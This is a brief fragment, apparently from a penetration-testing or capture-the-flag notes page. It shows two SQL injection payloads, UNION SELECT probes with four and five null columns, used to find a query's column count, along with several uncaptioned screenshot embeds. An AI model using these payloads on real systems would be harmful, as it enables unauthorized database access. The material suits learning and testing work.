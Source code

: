 ```
1' UNION SELECT null,null,null,null-- -
1' UNION SELECT null,null,null,null,null-- -
```

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

###

<figure><img src="../../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
